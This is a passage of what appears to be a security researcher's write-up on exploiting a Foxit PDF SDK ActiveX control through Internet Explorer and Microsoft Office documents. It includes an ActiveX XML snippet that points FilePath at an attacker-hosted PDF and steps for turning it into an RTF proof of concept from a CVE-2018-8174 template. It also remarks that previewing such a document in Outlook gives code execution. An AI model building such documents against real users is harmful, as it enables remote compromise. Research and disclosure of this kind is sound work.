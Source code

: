 <p class="cn" markdown="1">We can see under Manage add-on's that after clicking "Allow" on the prompt, we have our attacker's IP in the whitelist of sites to run this control.</p>

{% include image.html
            img="assets/images/ManageAddons.png"
            title="Whitelist of approved sites to run the Foxit.FoxitPDFSDKProCtrl.5 control"
            caption="Whitelist of approved sites to run the Foxit.FoxitPDFSDKProCtrl.5 control"
            style="width:80%;height:80%" %}

<p class="cn" markdown="1">We have a nice vector given that we can of course run all of this within an iframe and load some cat memes for our victim. But the problem is we are one prompt away from no user interaction and on top of that, who even uses Internet Explorer these days anyway?</p>

### Microsoft Office

<p class="cn" markdown="1">So at this point, I decided to go through the route of using Microsoft Office. I would imagine its more likely that this product is used in a desktop environment than IE. Also, attack payloads can be crafted for almost all office documents, working in Excel, Word, PowerPoint, Outlook preview pane, etc. The Outlook preview pane is particularly nasty as a user doesn't even need to open the email that is sent to them, rather just *preview* it, and we can achieve 100% reliable code execution.</p>

<p class="cn" markdown="1">The key difference to office vs IE is that there is no prompt for users to run the ActiveX control in Microsoft Word. I tested this on fully patched versions of Office 2013 and Office 2016 Professional using Windows 10 x86 and x64 as the OS.</p>

<p class="cn" markdown="1">At first I built a poc.docx file but I had some issues setting the `FilePath` property in Word directly after entering a string and pressing enter:</p>

{% include image.html
            img="assets/images/FilePathFail.png#2"
            title="Failing to set the FilePath property, thanks Microsoft, very informative!"
            caption="Failing to set the FilePath property, thanks Microsoft, very informative!"
            style="width:50%;height:50%" %}

<p class="cn" markdown="1">To solve this, I just crafted the poc.docx with the target ActiveX control and manually modified the *word/activeX/activeX1.xml* file to set the `FilePath` [ocxPr](https://msdn.microsoft.com/en-us/library/ff532755(v=office.12).aspx) property and then zipped it all up again.</p>

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<ax:ocx ax:classid="{0F6C092B-6E4C-4976-B386-27A9FD9E96A1}" ax:persistence="persistPropertyBag" xmlns:ax="http://schemas.microsoft.com/office/2006/activeX" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
    <ax:ocxPr ax:name="_Version" ax:value="327680"/>
    <ax:ocxPr ax:name="_ExtentX" ax:value="16775"/>
    <ax:ocxPr ax:name="_ExtentY" ax:value="12582"/>
    <ax:ocxPr ax:name="_StockProps" ax:value="0"/>
    <ax:ocxPr ax:name="FilePath" ax:value="http://172.16.175.1:9090/poc.pdf"/>
```

<p class="cn" markdown="1">Using that as a base, I saved the poc.docx as a poc.rtf file. Then to further enhance the rtf poc, I used a [template](https://github.com/0x09AL/CVE-2018-8174-msf/blob/master/CVE-2018-8174.rtf) from [CVE-2018-8174](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8174). I replaced the objClass `htmlfile` with the crafted `Foxit.FoxitPDFSDKStdCtrl.5` objClass instead from the previously saved poc.rtf file.</p>
